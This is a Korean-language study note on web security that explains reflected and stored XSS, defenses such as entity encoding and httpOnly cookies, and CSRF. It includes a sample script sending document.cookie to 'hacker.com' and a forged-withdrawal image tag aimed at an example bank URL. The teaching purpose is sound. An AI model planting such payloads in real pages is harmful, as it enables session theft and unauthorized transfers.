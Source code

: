 

## XSS (Cross-Site Scripting)

공격자가 브라우저에서 실행될 수 있는 악의적인 script를 삽입해서 요청자가 웹페이지를 열면 자기도 모르게 브라우저 런타임을 통해 악의적인 script를 실행하게 되는 공격. 일반적으로 이 방식을 통해 cookie를 탈취한다.

1. Reflected XSS
   - 공격용 악성 URL에 script를 포함해서 배포하는 방식.

2. Stored XSS
   - 웹 서버에 악의적인 스크립트를 영구적으로 저장해놓는 방식
   - 게시글의 내용에 악의적인 script를 담은 script 태그를 삽입해서 작성한다. 이후 해당 게시글을 조회하는 유저들은 악의적인 script를 실행하게 된다.

Stored XSS의 예시로 다음과 같은 경우가 있다:

```js
location.href = "https://hacker.com/?cookies=" + document.cookie;
```

악의적인 이용자가 위와 같은 게시물을 공개 게시판에 작성하는 경우, 이 게시물을 읽은 사용자는 자신의 쿠키를 해커에게 전송하게 된다. 

> `window.location.href`는 새로운 페이지로 이동시키는 자바스크립트 속성이다.



##### XSS 대응 방법

1. Input Validation 적용 (secure coding 가이드)
   - 프론트 단 혹은 서버 단에서 입력한 정보가 영구히 저장되기 전에 검증하는 것이 좋다.
   - XSS Cheat Sheet에 대한 필터 목록을 만들어 대응한다.
2. 스크립트로 해석될 여지가 있는 특수문자들을 인코딩해서 보여주기 (secure coding 가이드)
   -	`&` -> `&amp;`
   -	`"` -> `&quot;`
   -	`<` -> `&lt;` 
   -	등등 이렇게 특수문자들을 매핑해서 인코딩 해준다.
3. 보안 라이브러리 활용
4. Cookie를 설정할 때 `httpOnly`옵션을 설정한다.
   - `document.cookie`와 같은 브라우저 API로는 cookie 정보를 확인할 수 없다.



## CSRF (Cross-site Request Forgery; 크로스-사이트 요청 위조)

CSRF는 아래와 같은 조건이 만족할 때 실행된다:

- 사용자가 공격자가 만든 피싱 사이트에 접속한 경우
- 사용자가 위조 요처을 전송하는 서비스에 로그인이 되어있는 경우

만약 해커가 만든 웹사이트에서 로드한 웹페이지에 다음과 같은 악의적인 이미지 태그가 있다고 생각해보자.

``` html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

은행 계좌에 로그인하고 있고, 쿠키가 유효하고, 해당 withdraw API 호출에 쿠키 이외의 별다른 검증절차가 존재하지 않는다면 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것이다.
